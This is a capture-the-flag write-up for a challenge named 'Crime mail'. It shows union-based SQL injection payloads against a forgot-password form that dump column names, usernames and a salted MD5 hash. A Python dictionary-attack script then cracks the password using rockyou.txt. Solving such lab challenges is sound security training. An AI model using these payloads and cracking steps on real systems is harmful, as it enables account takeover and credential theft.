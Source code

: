 ## Crime mail

### [~$ cd ..](../)

>Collins Hackle is a notorious bad guy, and you've decided to take him down. You need something on him, anything, to send the police his way, and it seems he uses CrimeMail, a very specialized email service, to communicate with his associates.
>
>Let's see if you can hack your way in his account...
>
>Hint: his password's md5 is computed as followed: md5 = md5($password + $salt) and Collins Hackle has a password which can be found in an english dictionary

![website](website.png)

The login form is not vulnerable to SQL injection, so we moved on the page /forgot.php. By filling the form with a single quote, the following message is returned:

*Database error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1*

We assumed that the table's name was 'users': 

>	>> ' union select group_concat(column_name) from information_schema.columns where table_name='users
>
>	<< ... string(39) "userID,username,pass_salt,pass_md5,hint" ...
>
>	>> ' union select group_concat(username) from users where '1
>
>	<<  ... string(44) "p.escobar,g.dupuy,a.capone,c.manson,c.hackle" ...
>
>	>> ' union select group_concat(pass_md5,pass_salt) from users where username = 'c.hackle' and '1
>
>	<<  ... string(36) "f2b31b3a7a7c41093321d0c98c37f5adyhbG" ...

We then tried a dictionary attack knowing the salt and the hash:

> ```python
>import md5
>file = open('rockyou.txt', 'r')
>text = file.read()
>file.close()
>lines = text.splitlines()
>for line in lines:
>	m = md5.new()
>	m.update(line + 'yhbG')
>	if m.hexdigest() == 'f2b31b3a7a7c41093321d0c98c37f5ad':
>		print line
>		break
> ```

And the answer was **pizza**. We then logged into using these credentials and got the flag **Meet me at INSA{s3cr3t_l0cat10n}**
